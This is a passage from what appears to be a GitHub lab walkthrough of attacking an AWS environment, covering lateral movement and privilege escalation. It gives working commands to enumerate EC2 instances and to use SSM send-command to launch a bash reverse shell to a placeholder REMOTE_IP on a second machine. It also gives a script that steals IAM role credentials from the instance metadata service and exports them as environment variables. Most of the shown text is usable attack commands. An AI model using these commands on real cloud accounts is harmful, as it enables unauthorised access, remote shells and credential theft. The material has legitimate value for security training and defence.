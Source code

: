 <img width="1677" height="1127" alt="image" src="https://github.com/user-attachments/assets/603128d4-ca7b-4a5d-a8ec-668f0cba9726" />


We find permissions allowing us to list EC2 instances and send SSM commands. Perfect for lateral movement!

---

## 📡 Step 8: Moving Laterally with SSM

To get an overview of your EC2 instances, you can run:
```bash
aws ec2 describe-instances --filters "Name=instance-state-name,Values=running" --query 'Reservations[*].Instances[*].[InstanceId, Tags[?Key==`Name`].Value|[0], State.Name]' --output table
```
<img width="1752" height="282" alt="image" src="https://github.com/user-attachments/assets/8de49a9e-6dc3-46fc-bbe5-074a9fae1b87" />

If your environment uses a region other than us-east-1, you can enumerate all EC2 instances across every region using the script at `examples\check_aws_instances.sh`.
<img width="1404" height="996" alt="image" src="https://github.com/user-attachments/assets/d7a602d6-ac9b-4aab-bd69-6ebf0a1cbeb7" />


Once you identify an instance of interest, the next step is to gain access. You can either open a new listener on a different port or reuse a previous one. 
The goal is to connect to a different machine (Jenkins machine) than your current session, allowing you to explore other IAM roles for potential privilege escalation.

From your local terminal, run the following command, making sure to update the instance ID, REMOTE_IP, and REMOTE_PORT

```bash
aws ssm send-command --document-name "AWS-RunShellScript" --targets "Key=instanceIds,Values=i-0ef5488e604d5bd79" --parameters 'commands=["bash -c '\''bash -i >& /dev/tcp/REMOTE_IP/REMOTE_PORT 0>&1'\''"]' --region us-east-1
```
<img width="1024" height="244" alt="image" src="https://github.com/user-attachments/assets/95c0b508-554e-4d64-a91f-269cf4486e19" />

Now we have a shell on a second machine. Time to escalate further!

---

## 🏆 Step 9: Privilege Escalation

From the new EC2 instance, repeat the credential extraction process:
```bash
#!/bin/bash

TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
CREDS=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME)

echo "$CREDS" | jq -r '. | "export AWS_ACCESS_KEY_ID=\(.AccessKeyId)\nexport AWS_SECRET_ACCESS_KEY=\(.SecretAccessKey)\nexport AWS_SESSION_TOKEN=\(.Token)"'

```
<img width="1184" height="596" alt="image" src="https://github.com/user-attachments/assets/682bda11-3eed-4efc-9911-6cf5e373541a" />
